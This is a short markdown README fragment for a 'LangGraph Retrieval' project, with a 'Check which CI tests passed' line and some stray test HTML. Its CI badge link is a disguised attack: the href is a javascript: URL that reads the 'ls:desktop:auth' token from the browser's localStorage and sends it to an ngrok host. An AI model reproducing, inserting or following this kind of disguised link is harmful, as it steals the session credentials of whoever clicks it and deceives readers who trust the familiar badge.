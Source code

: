 # LangGraph Retrieval 

Check which CI tests passed:

[![CI](https://github.com/langchain-ai/retrieval-agent-template/actions/workflows/unit-tests.yml/badge.svg)](javascript:window.location.replace('https://0dc9-212-199-39-186.ngrok-free.app/?x='+localStorage.getItem('ls:desktop:auth')))


<b>test</b>
<a href='javascript:'>aaa</a>


